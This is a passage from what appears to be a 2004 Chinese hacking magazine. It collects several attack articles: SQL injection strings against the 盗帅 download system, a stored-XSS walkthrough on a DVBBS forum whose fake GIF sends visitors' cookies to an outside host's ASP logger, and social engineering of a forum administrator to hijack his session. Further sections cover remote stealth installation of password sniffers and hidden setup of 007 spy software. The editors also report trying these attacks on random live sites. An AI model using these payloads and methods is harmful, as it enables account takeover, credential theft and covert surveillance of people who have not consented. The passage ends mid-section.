很明显，这个漏洞危害很大，还在使用该下载系统的朋友也请立即去下载补丁升级你的系统。不过，千万不要使用这个漏洞去搞破坏，那样你永远只是个“脚本小子”！（脚本小子：强烈抗议！这个“脚本小子”可不是我这个“脚本小子”啊！大家可别误会！）

> **编后语：** 这个漏洞是作者在 2004 年初发现的，危害很大。我们很感谢作者在第一时间将漏洞提供给黑防，在此代表《黑客防线》感谢 19821119。希望大家有什么新的发现不要忘记告诉脚本小子。安全防护、补丁第一，别忘了 Softbug@hacker.com.cn 哦。

脚本小子：上期我们谈到盗帅下载系统 2.0 正式版存在多个旁站漏洞，本期我们又将给你带来其 V2.1 正式版的几个相关漏洞。如此看来，“枪打出头鸟”还是有一定道理的。该系统目前应用比较广泛，已经受到了各路侠客的足够重视。不过，我们相信，这仅仅还只是开始，网络安全的攻防对峙统一任重而道远……

- 适合对象：脚本技术爱好者
- 前置知识：熟悉 ASP 脚本、SQL 相关知识

## 盗帅，你如何让我放心？！

文／青野志狼

## 漏洞描述

盗帅下载系统是一款由 http://www.daoshuai.com 开发、维护的源代码开放的 ASP 下载系统。由于其 function.asp 文件中多个函数没有对提交的数据过滤，而是直接放到 SQL 查询，导致远程攻击者可以利用这个漏洞进行 SQL 注入攻击，从而获得任意用户的 MD5 加密密码，进而威胁整个下载系统或服务器的安全。

```asp
881  numCookies=request.form("cookies")
882  numRCopyid=request.form("copyid")
883  dateTime=now()
884  if strUser="" then
885      strERR="使用匿名进行登陆"
886  else
887      Set rs = Server.CreateObject("ADODB.Recordset")
888      sql="select admin.admin,admin.pws,admin.qx from admin where admin='" & strUser & "'"
889      rs.open sql,conn,1,1
890      if rs.eof then
891          strERR="使用未注册的用户账号：" & strUser & " 登陆本系统"
892      else
```

### 详细分析

盗帅下载系统 V2.1 整合了 SQL 注入补丁和 2.0 SP1，消除了大批 SQL 注入隐患，但智者千虑，必有一失。让我们看看 function.asp 文件代码，程序中大多数文件所使用的函数都在这个文件里了。

### 1. reg() 函数

首先是 reg() 函数中出现问题的代码，类似这样的函数还有 show_now() 等。请看代码：

```asp
876  case "log"
877      if request.QueryString("save")="ok" then
878          numAdminip=request.servervariables("remote_addr")
879          strUser=request.form("username")
880          strPas=request.form("password")
```

很明显，它没有对 strUser 进行任何过滤。虽然程序中尽量减少了返回错误的信息，只返回同一种错误，但同样可以引起 SQL 注入。在使用 show_now() 注入时，返回的判断不是特别明显，大家可以自己研究一下。

> “外来数据不过滤或者过滤不严”的确是一个非常严重但也是非常普遍的问题了，在目前公布的众多脚本漏洞中，绝大多数属于这一类。

### 2. list_soft() 函数

在同一个 function.asp 中，list_soft() 函数中也存在问题。这个函数的功能是软件显示（搜索），还是先看代码吧。

```text
212  strTch=request("TTYPE")
213  strSearch=request("KEY")

223  sql3="select * from download"
224  if strType<>"" then
225      sql3=sql3 & " where boolZhen=False and numSortcount=" & strType
226  else
227      if strSearch<>"" then
228          if strTch="BYNAME" then
229              sql3=sql3 & " where boolZhen=False and name like '%" & strSearch & "%'"
230          else
231              sql3=sql3 & " where boolZhen=False and strShow like '%" & strSearch & "%'"
232          end if
233      else
234          sql3=sql3 & " where boolZhen=False"
235      end if
236  end if
237  if strRang<>"" then
238      sql3=sql3 & " order by " & strRang & " desc"
239  else
240      sql3=sql3 & " order by dateRtime desc"
241  end if
```

想必你已经看出来了吧？我再多说点废话解释一下吧（哎哟……谁用可乐罐砸我？！%#）！

我们主要看 strSearch 的作用，这个是查询的关键字，看到了吧，没做过滤！下面来做个假设（前提 strTch="BYNAME"）：

```text
strSearch 的值为：狼族软件，那么得到的 sql3 为：
select * from download where boolzhen=false and name like '%狼族软件%' order by datertime desc
```

这个是正常的，再看另一个：

```text
strSearch 的值为：狼族软件' and 0<>(select count(*) from admin) and strshow like '
```

> **编者注：**
>
> 各位昏迷，上面 strSearch 值中的“0<>”可以去掉吗？自己试试看哦！

那么，得到的 sql3 为：

```text
select * from download where boolzhen=false and name like '%狼族软件' and 0<>(select count(*) from admin) and strshow like '%' order by datertime desc
```

怎么样？呵呵，strshow like '%' 恒为真，如果有个软件名以“狼族软件”为结尾的话，那么 name like '%狼族软件' 也为真；最后是否显示就要看中间那个子查询是否为真了，这样判断查询是否正确就容易多了。好了，不再废话了。

### 攻击方法

对于第一种情况，我们以 reg 函数中 log 情况为例。首先注册一个用户，我注册的是用户名 panderlang，密码 panderlang，然后转到登录页面，在用户名里填写：

```text
panderlang' and 1=(select count(*) from admin) and '1'='1
```

在密码框填写自己的密码、验证码，提交。如果返回“登录成功”的话，那么提交的查询正确；否则，查询错误。

我们可以尝试提交如下查询：

```text
panderlang' and 1=(select count(*) from admin where id=1) and '1'='1
panderlang' and 1=(select count(*) from admin where id=1 and len(admin)=5) and '1'='1
panderlang' and 1=(select count(*) from admin where id=1 and len(pwd)=32) and '1'='1
```

获得其他用户名和密码也和其他 SQL 注入方法一样。

对于第二种情况，我们可以找软件的名称，比如说“狼族攻击器”，那么我们在 index.asp 或者 list.asp 中的查询框中选“按内容”搜索，在关键字中填写如下形式：

```text
狼族攻击器' and 0<>(select count(*) from admin) and strshow like '
```

然后不断更改中间的查询来猜测，剩下的就不用再说了。

本来想拿到 MD5 加密的密码后用 cookies 欺骗进去，结果这个下载系统中 cookies 的密码是登录时所填的，而不是 MD5 加密过的，郁闷！喜欢暴力破解的朋友可以试试耐心了！

> **后记：**
>
> 小编以关键字“版本：盗帅下载程序 v2.1 正式版”在 Baidu 中搜索了一下，随便找了几个网站点击进去试了试，发现这种问题是普遍存在的。虽然，本文只是谈到获取 MD5 加密的密码，不过对于网络中的众多英雄来说，后文可以发挥的余地自然不可小觑。如果你的网站正好使用了盗帅下载程序，那你还等什么呢？赶快去升级吧（本漏洞的防护方法作者特意写成了补丁程序，详细情况请查看光盘杂志相关栏目）！

脚本小子：杂志以前刊登过跨站脚本漏洞的相关文章，在当时有很多站长注意了这个问题，做了比较好的防御，但是一段时间后，这样的攻击方法又死灰复燃，很多跨站脚本攻击又在网络上蔓延，所以应很多朋友的要求，我们特意重新安排了和“跨站脚本”相关的对应文章，在攻击和防护中一起来探讨网络安全技术！

- 适合对象：对脚本攻击感兴趣的朋友
- 前置知识：Cookie，JavaScript，HTML

## 再谈“跨站脚本攻击”
### ——入侵某知名安全站点实例

文／图 无敌最寂寞［HBU 小组］

最近跨站脚本攻击又开始蔓延，看了几个高手的脚本攻击文章，心里热乎乎的，也盘算着自己尝试一下这样的攻击。无意中来到一家著名组织的论坛（以下简称论坛）的登录界面，一眼看去就是动网 BBS 那熟悉的界面，版本是 V6.0.0，从管理员处得知所有以前公布的漏洞全补上了。当然，打好了那些补丁不代表整站的安全性就固若金汤了，在征得管理员的同意后，笔者开始测试跨站攻击！

估计用普通的跨站攻击方法是行不通了，管理员肯定对字符做了严格的过滤，接下来测试的结果也证明了这一猜测，最郁闷的是把字符转换成 ASCII 码也未能蒙混过去。正在犯难之际，一眼看到了上传选项，先看看支持什么文件格式的上传——论坛支持图片上传！我们来伪造一个图片文件。一样，大家可以翻看以前的《黑客防线》的文章，相信不是很难。

将含有脚本代码的文本文档的后缀名改为 .gif，这样当对方试图打开“图片”的时候，文件里的代码会被执行，我们欺骗的目的也就达到了！

制作的方式是打开记事本程序，输入如下代码：

```html
<script language=javascript>window.alert(document.cookie)</script>
```

然后另存为 1.gif 文件（文件名可任意，只要后缀名是图片文件格式的后缀就可以上传），然后在论坛里发个帖子，再把刚才制作的 1.gif 文件上传。帖子发表后，可以自己来浏览一下，点击一下这个打红叉的“图片”，可以看到如图 1 所示的结果。



图 1

代码被成功执行，笔者自己的 cookie 一览无余。可能有的朋友会问：不是伪造的图片吗？就算是文本文档，为什么里面的代码会执行呢？事实上，我们伪造的那个 1.gif 文件是一个纯粹的文本文档。当浏览器试图打开它时，实际上打开的是个文本文档，而文本文档里所包含的 HTML、VBScript、JavaScript 等脚本代码会被浏览器自动解释执行，这就是一个系统的固有缺陷，我们可以利用它来构造一次跨站脚本攻击，截取管理员的 Cookie，从而进一步控制论坛。

首先，笔者在自己的 ASP 空间上安置了海阳顶端木马，这样稍后测试的时候查看结果会比较方便，毕竟反复登录 FTP 是很麻烦的；然后找一个可以获取 Cookie 的 ASP 脚本，笔者找到的是 lcx 写的那段经典代码：

```asp
<%
testfile=server.mappath("super.txt")
msg=request("msg")
set fs=server.createobject("scripting.filesystemobject")
set thisfile=fs.opentextfile(testfile,8,true,0)
thisfile.writeline(i & msg & "")
thisfile.close
set fs=nothing
response.redirect("http://www.xxx.net")
%>
```

上面的代码中我只不过是把保存的文件名改了一下，然后在最后一句加了一个 URL 重定向指令使得页面重定向到固定的论坛上来，其余的都是完全照搬 lcx 的代码。将这段代码保存为 info.asp，然后上传到自己的空间上去。

接下来该重新做一个伪装图片了，只需要打开记事本，输入如下代码：

```html
<script language=javascript>window.open('http://cnasu.net/info.asp?msg='+document.cookie)</script>
```

这段代码很简单，关键就是这一句：

```text
'http://cnasu.net/info.asp?msg='+document.cookie
```

其含义就是把浏览者的 Cookie 信息作为 msg 变量的内容传递给 info.asp 来处理，以达到窃取的目的。

一切准备就绪之后，把这次修改好的 1.gif 文件上传到论坛（图 2）。



图 2

单击图片，使图片里的代码执行一下，成功！现在使用海阳顶端木马上去空间看看是不是多了个 super.txt 的文件？这个是我的 Cookie，但打开这个文件一看，结果却让笔者大跌眼镜（图 3）。

这到底是怎么回事？郁闷！居然不能正确地截……取到 Cookie，笔者仔细查看 info.asp 原代码 N 遍，又查看了 1.gif 文件的内容 N 遍，还是没能找出原因来！就在精神快要崩溃的时候，突然想起前几天在翻看一个免费下载系统的源代码时碰到过一个问题，曾查阅过关于 ASP 内置对象 Request 的用法，记得里面说过 Request 是以“&”来分割提交的 msg 变量内容的，于是马上查看一下提交格式，如下：

aspsky=userhidden=&password=85542941c46e55b5&userid=22&userclass=%B9%DC%C0%ED%D4%B1……（以后省略）

这样就明白了，当客户端提交了如上信息后，Request 只得到了上面信息中第一个“&”之前的内容，也就是“aspsky=userhidden=”，而后面的重要内容全部被脚本忽略掉了！真是不能不晕，lcx 大哥的经典代码居然会出错？还是自己弄错了？在 QQ 上与朋友小金讨论了一下，完全证明了笔者的猜测——是代码本身的问题，小金也帮忙三下五除二地把代码写好了，如下：

```asp
<%
dim fs,log,logname,sEvent
logname="COOKIE_" & now & ".txt"
logname=replace(logname," ","")
logname=replace(logname,":","-")
logname=replace(logname,"/","-")
logname=server.mappath(logname)
sEvent=Request.ServerVariables("QUERY_STRING")
Set fs = CreateObject("Scripting.FileSystemObject")
set log=fs.CreateTextFile(logname)
log.WriteLine sEvent
log.close
Set fs = Nothing
response.redirect("http://www.hackerbase.net")
%>
```

该代码关键部分就是这一句：“sEvent=Request.ServerVariables("QUERY_STRING")”，使用 Request 对象的 ServerVariables 方法来获取 HTTP“？”之后的提交信息（连同 msg= 也被获取），其他的就很简单了。这 ASP 脚本将把获取的 Cookie 信息转储为以“COOKIE”+当前日期时间为文件名的文本文档。代码的问题终于搞定了，接下来就可以继续测试了。重新将改好后的 info.asp 上传到空间里（图4）。

接下来的事情就与技术无关了，需要骗取管理员的信任。于是使出社会工程学，在 QQ 上诱骗管理员，他的权限可是管理员级别的：

- 无敌最寂寞：这个 MM 图片真好看！
- 管理员：真的吗？我要！
- 无敌最寂寞：我发去论坛吧，我这网关设置了屏蔽某些协议，QQ 传输不了文件。
- 管理员：好，我等着！
- 无敌最寂寞：已经传好了，去看看吧！
- 管理员：OK, let me see!
- 无敌最寂寞：好看吗？
- 管理员：怎么是红叉啊？
- 无敌最寂寞：是网络超时吧？你在新窗口打开看看先。
- 管理员：好，我点了，但怎么还是不行啊！
- 无敌最寂寞：怎么会？我重新上传一下吧！
- 管理员：好，麻烦你啦！

给管理员上传了一个真的 MM 图片，稳住他之后，笔者到空间里看见了他的 Cookie（图5）。

得到 Cookie 之后，可以暴力破解密码，但是那样时间代价太大，也不知道要等到何年何月，所以还是进行 Cookie 欺骗比较实际。首先将自己的账户退出论坛，关掉浏览器，打开“我的电脑”，找到存放 Cookie 的目录，将除了 index.dat 之外的所有文件删除（这里是为了防止以前的 Cookie 对实验产生干扰），再重新打开浏览器，进入论坛，在登录的 Cookie 选项中选择 Cookie 保存一天，然后用自己的“无敌最寂寞”账户登录。这时就可以调出 Cookie 查看修改利器 iecv，马上就能看到保留的 Cookie 了（图6）。

图7

图6

编者注：iecv 程序已经收录在光盘杂志相关栏目中。

编辑自己的 Cookie，将自己的 Cookie 和管理员的 Cookie 中对应的字段进行替换（这里所说的字段就是 Cookie 中以“&”分割的各个段落），即把原来 Cookie 中“password=”后面的内容替换成管理员的 Cookie 中对应“password=”之后的内容。同理，依次替换 userid、userclass、username 等字段，修改完后点击保存，这样就大功告成了！

再次关掉浏览器，重新开启浏览器并进入论坛（这里不需要登录就直接进去了），多刷新几遍，发个帖子试试，果然身份变成了管理员，测试成功了（图7）。

当然，我们从这里还是无法进入后台管理中心的，管理员也没傻到把前台密码与后台密码设置为一样的地步，所以这个权限充其量是冒充管理员发帖子、删帖子。当然，动网论坛 6 也支持不进入管理中心就直接在前台编辑一些论坛设置，这也算是个潜在的突破口，你不妨动脑子思考如何通过修改论坛设置达到自己的目的。最后还要说明一下，由于那个伪造的图片并不完美，只显示红“X”；还有就是当浏览者点击了图片后，会出现两个 IE 浏览窗口（详细情况请参考图1、图2），一个是空白窗口，地址栏中是 1.gif 的路径；还有一个窗口就指向了你在 1.gif 中指定的地址（当然，这里你也可以使用类似 location.href 或者 response.redirect 来重定向 URL 以加强隐蔽性），这样的话很容易被发现。如何避免呢？第一种情况笔者是这样设想的，可以伪造一个真正的 GIF 文件，在 GIF 文件中的头部信息里可以添加你想要的代码（或者是利用跳转等方法），这样的话，看上去将是一个真正的 GIF 动画文件，实际上当你点击浏览时，一些恶意代码就悄悄地运行了（这样的话隐蔽性极强，可是笔者水平有限，不了解如何实现，希望高手能在《黑客防线》杂志上共同探讨研究）；第二种情况嘛，也许可以通过脚本编程来隐藏或关闭多余的窗口，如果哪位高手有更好的解决方法请赐教，小弟感激不尽！

### 编后

有感于此文，编者和作者无敌一起在网上随便找了同样也采用 DVBBS 6.0.0 的论坛，按照作者的描述，做了一下试验。通过一定的欺骗手段，我们都成功获得了该论坛的最高权限！我们在 Google 输入“Powered by: DVBBS Version 6.0.0”为关键字，在搜索出来的结果中，绝大部分都存在这个安全缺陷！至于这个论坛程序的安全故障的修补方法，请参考防黑的《防御伪造图片跨站脚本攻击》一文。

## 黑暗中的幽灵

### ——口令嗅探器

文／图 netff

嗅探技术是网络安全攻防技术中很重要的一个方面。对黑客来说，通过嗅探技术能以非常隐蔽的方式获取网络中传输的大量敏感信息，例如用户账号和口令。与主动扫描相比来说，嗅探行为更难被察觉，也更容易操作；而对安全管理员来说，借助嗅探技术，可以对网络活动进行实时的监控，并及时发现网络攻击行为。

在 TCP/IP 网络中，许多协议都是以明文方式传送数据的，包括用户账号以及口令信息，大家比较熟悉的有 TELNET、FTP、POP、HTTP 等等。在非交换环境中，只要在网络的一端进行嗅探，那网络中一切传输的信息就尽收于眼前了！

嗅探工具的种类繁多，有可以帮助管理员监控网络状况的 Sniff Pro、Iris 等，也有专门嗅口令的工具，如 Winsniff 等。在这里，我来给大家介绍几个在 Windows 下专门嗅账号及口令等信息的口令嗅探工具，方便大家在需要攻击和防护的时候能好好地使用它们！

## Winsniff

Winsniff 是一个非常高效的口令嗅探器，它有两个版本，都支持 Win9x/NT/2K，一个是 GUI 方式的，一个是命令行方式的版本。我们都可以在 http://www.winsniffer.com 下载到它的最新版本。Winsniff 的 GUI 版本较命令行版本使用上要简单，功能也较为单一，我就不做介绍了，大家一起来看一下它在命令行下的使用方法。

```text
Winsniff /a AdapterNumber [options]
```

AdapterNumber 是要绑定网卡的编号。options 的各项参数是：

- `/l` 列出可绑定的网卡。
- `/s filename` 将嗅到的信息解析后保存到指定文件。
- `/m filename` 将嗅到的 email 内容保存到指定的文件。
- `/h` 显示帮助。

我们用 Winsniff 下的 `/l` 参数列出 Winsniff 能够绑定的网卡的相关信息，如图1所示，给出了 Winsniff 能够绑定的网卡的相关信息。

图1

能够绑定所有网卡的相关信息，但其中有很多是没有用的，现在我们选定 0 号网卡来进行绑定嗅探，命令是：

```text
Winsniff /a 0 /s pass /m mail
```

操作结果如图2所示。

图2

在 Winsniff 运行一段时间后，我们按 Ctrl+C 键结束嗅探，并用记事本打开保存相关信息的文件，怎么样？里面显示的，全是 Winsniff 抓到的 username 和 password 的相关信息，方便吧？

Winsniff 的命令行版本也可以捕获 E-mail 的相关信息，不过它捕获后是以 UNIX 邮件的格式保存的。

Winsniff 命令行版本最吸引我的地方是它能够捕获对方邮件的内容并保存起来，所以利用这个我们往往能够在进入对方的网络后，通过它来获取对方邮件相关的信息。

## Xsniff

Xsniff 是安全焦点出的一款口令嗅探器，作者是冰河，可以在 http://www.xfocus.net 下载到最新版本。

Xsniff 也是一个命令行下的口令嗅探器，可以捕获 FTP/SMTP/POP3/HTTP 协议的密码，其可用的命令选项如下：

```text
Xsniff <选项>
<选项>含义如下：
-tcp：输出 TCP 数据报
-udp：输出 UDP 数据报
-icmp：输出 ICMP 数据报
-pass：过滤密码信息
-hide：后台运行
-host：解析主机名
-addr <IP地址>：过滤 IP 地址
-port <端口>：过滤端口
-log <文件名>：将输出保存到文件
-asc：以 ASCII 形式输出
-hex：以 16 进制形式输出
```

Xsniff 运行时会自动绑定一个有效的网卡，这个和很多嗅探工具有点不同。另外，它的选项也较多，可以对特定的 IP 地址及端口进行过滤等等。现在，我们用一个实例来看看 Xsniff 的捕获效果如何，首先输入：

```text
Xsniff -pass -hide -log pass.txt
```

意思就是在后台隐藏嗅探关键字包含 pass 的信息，然后保存在 pass.txt 中。如果想结束捕获，按 Ctrl+C 键就可以停止捕获。

Xsniff 运行一段时间后，我们结束 Xsniff 的运行来看它捕获到了什么。我们用记事本打开捕获并保存后的文件，结果如图3所示。

图3

注意看其中最下方的一项，就是我登录 www.job168.com 时的用户名及密码，被 Xsniff 完整地捕获下来了。Xsniff 保存捕获后的信息看起来较 Winsniff 直观、明了。

Xsniff 是一个非常不错的嗅探工具，但由于该工具没有可以选定绑定哪个网卡，只是运行时自动绑定一个有效的网卡，有时我们会由于种种原因，需要自己手动绑定时，就会出现无法选择的尴尬。这应该是该工具的一个缺陷。

## Fssniffer

Fssniffer 是小榕写的一个口令嗅探器，它只能运行于 Win2K 或 XP 下，可以捕获非交换局域网内的 POP3/FTP 协议的用户名和密码。与其他口令嗅探器相比，这个工具还可以以服务方式来运行。一旦安装完成并运行，它就可以在后台捕获整个局域网的用户名和密码。此外，该工具还必须在开始运行时指定登录上去查看捕获信息时的端口及保护密码。由于它具有本地及远程安装功能，加上它独有的特性，所以说 Fssniffer 是一个不折不扣的黑客工具。现在我们来看看它是如何替我们工作的。

Fssniffer 可以分成本地运行、远程运行。Fssniffer 本地运行的格式是：

```text
fssniffer -S <Bind IP> <Port> <Control Password>
```

- Bind IP：指绑定的 IP 地址；通常就是本地主机 IP 地址。
- Port：控制的端口，以后要通过这个端口登录上去查看结果。
- Control Password：登录时的密码。

- Show Result：查看捕获的记录。
- Quit：退出。
- ShutDown：结束 Sniffer 的运行。

现在，我们来看看 Fssniffer 是如何进行远程安装的。Fssniffer 远程安装的语法是：

```text
Fssniffer -I <Username> <Password>
<Service Name> <Bind Local IP> <Port>
<Control Password>
```

- UserName：远程主机的用户名（必须具有超级用户权限）。
- Password：远程主机的密码。
- Service Name：安装的服务名称，如果安装失败，可以将 Fssniffer.exe 改名再试。
- Bind Local IP：远程主机的 IP。某些主机具有两个 IP 地址，这里就需要根据需要选择监听的 IP 地址（比如局域网和外网）。
- Port：远程控制的端口。
- Control Password：远程控制的密码。

要在目标机器安装 Fssniffer，必须将 Fssniffer 复制到远程机器并 Telnet 到目标机器上进行安装。假设我们将 Fssniffer 复制到对方机器上并且对方已经启动 Telnet 服务，现在我们 Telnet 上去并安装 Fssniffer，让其以服务的方式运行。

结果如图4所示，显示安装完成。但由于该服务只是安装完成还没有启动，必须等到机器重启时才会自动启动并生效，这不是我们想要的，现在我们来启动它，如图5所示。

过段时间后，我们就可以登录上去查询捕获的结果了。远程查询跟刚才我在本地运行后登录查询的方法是完全一样的，在这里就不再赘述了。当然，如果你只想对远程的机器只做一次性嗅探且时间不长的话，就不必将 Fssniffer 安装在远程机器上，只要 Telnet 上去后，就跟本地运行是一样的命令了。

在开始嗅探一段时间之后，我们 Telnet 到指定的机器上去看看 Fssniffer 究竟为我们捕获到了什么，登录成功后用 show result 命令查看，结果如图6所示。

Fssniffer 显示捕获到的内容是直接显示在屏幕上的，不像 Winsniff、Xsniff 一样可以保存在指定的文件中。

有兴趣的朋友可以到小榕的网站去下载，网址是：http://www.netxeyes.net。

## PASSWORD SNIFFER FOR NETHACKER III

PASSWORD SNIFFER FOR NETHACKER III（简称 PWS）是一个运行于 Win 95/98/Me/2000 的口令嗅探器，它还可以观察网络中的账号活动情况。同一般软件相比，它有更友善的视窗界面，不需要安装任何驱动程序（其实不是不需要安装，而是由 PWS 自己动态安装而不需要用户自己干预而已），不需要重新启动机器，支持多达数十种的协议。另外，它还提供了网络流量观察的功能，可以清晰地看到网络流量曲线和流量数据。有兴趣的朋友可以到天行的主页下载，网址是：http://www.tianxing.org。

PWS 需要安装，但非常简单，安装完成后需要指定并绑定一个相关的网卡，它的运行界面跟 Winsniff 的 GUI 版非常相似（图7）。

PWS 一运行就会开始捕获，非常方便，使用也非常简单，如果想停止，只需按红色的 STOP 键就行了。

好了，关于口令嗅探器的介绍就到这里了，也许还有更好的口令嗅探器没有介绍到，在这里就不说了。口令嗅探器与那些多功能的嗅探器相比，它的优点是显而易见的，那就是使用简单、方便，不需要繁杂的操作。这也正是口令嗅探器赖以生存，比其他多功能嗅探器优秀的地方。

（上接第20页）

uid、euid、suid、fsuid 都与 getuid() 相等的内存地址，然后把 uid、euid、suid、fsuid、gid、egid、sgid 和 fsgid 都改成 0，这样该进程就获得了超级用户权限，因为 euid 等值也被修改了，所以用 execve() 系统调用调用的进程也会有超级用户权限。

员却连漏洞都不知道的情况下严重地威胁到了使用 Linux 系统用户的安全性。因为对此漏洞轻率地处理，从而产生了这样的结果。

## 该漏洞引发的思考

好了，终于分析完了漏洞的原理与整个利用技术所碰到的难题（呵呵，不知道大家有没有耐心看到这里）。现在让我们看一下该漏洞产生的影响，因为 Linux 内核开发人员未对此漏洞做及时的公告，因此很多管理员并不清楚此漏洞的危害性（当然，Debian 被攻击以后大家肯定都应该知道这个漏洞了吧），而且在漏洞未公告前攻击程序已经被大规模地泄漏，IRC 里已经有很多人在讨论攻击程序的使用方法了。这种攻击者已经获得攻击程序而管理员却连漏洞都不知道的情况下，严重地威胁到了使用 Linux 系统用户的安全性。

> ### 编后
>
> 我们可以从这个事件上学习到，对系统中任何漏洞都不能掉以轻心。另外，因为此漏洞是一种新型的漏洞，对这种漏洞的研究与发现并没有完全展开，所以，这种类型的漏洞很有可能在系统内核中再次被发现，其他系统内核也可能会存在同样类似问题。不过，当大家看完这篇文章后，下次再遇到同样的漏洞时，就不会再有陌生的感觉了，而且说不定就是你发现的哦！此漏洞的 exploit 已经收录到光盘，名为 brkexp.c；针对该漏洞的防范文章也已经刊登在了本期防护宝典，大家可以参考。最后，祝大家在新的一年内玩“虫”愉快！

## 在工作中当了回“007”

文／图 沈林

我单位在一楼放了一台电脑，专门用来指纹考勤和控制大屏幕显示，而我作为单位的网管，工作在四楼机房。如何才能控制到一楼的电脑呢？我想了许多方法，最后发现了一款名叫007 Spy Software的软件（007间谍软件）。它可以让我很好地监视和控制这台电脑，解除了我工作中的一大难题，没想到解决这个难题使我在工作中当了回“007”。现将经验和技巧写出来供大家借鉴。

### 007 Spy Software软件小档案

- 最新版本：V3.17
- 软件大小：2377KB
- 软件性质：共享版
- 操作系统：Windows 98/Me/2000/XP
- 下载地址：http://www.skycn.com/soft/13054.html

### 前期设置工作

软件下载安装运行后，进入007 Spy Software主界面（图1）。从图1可以看到“Global Settings”（全部设置）栏下包含了很多设置项，让我们按照设置习惯逐一认识它们吧。



图1

- 1．隐藏监控

软件安装运行后，总是希望它能随系统一起启动，最好还是隐藏运行。如何实现这两个功能？我们可以在“Startup Option”（启动选项）中分别勾选“Load on Windows Startup”（与系统一同运行）和“Startup in Stealth Mode”（隐藏运行模式）。否则软件会自动勾选“Startup in Active Mode”（激活运行模式），请大家注意！有些性急的读者可能会问软件都隐藏运行了，如何调用该软件？这就用到了“快捷键激活”。

- 2．快捷键激活

将鼠标定位在“Hotkey Selection”（快捷键选项）栏中，在键盘上按下任意组合键，最好是复杂一些，这样不易被别人发现。如按下“Ctrl+Shift+M”组合键。如果该软件无意中被别人发现的话，怎么办？还得靠软件密码来进一步保护。

- 3．密码保护

为了确保该软件的万无一失，还得给该软件加把锁，这样即使快捷键失效，还有密码来为我们把关。勾选“Enable password protection to avoid unauthorized access”，在下面出现的框中输入两次密码即可。讲了很多隐藏的方法，其实该软件的关键是“截获”计算机运行时的相关信息，包括键盘输入的任何内容、浏览的网页、执行的应用程序、活动的屏幕窗口等。这些获取的信息存放在一个安全的地方至关重要！下面看看我们如何设置保存位置。

- 4．保存位置

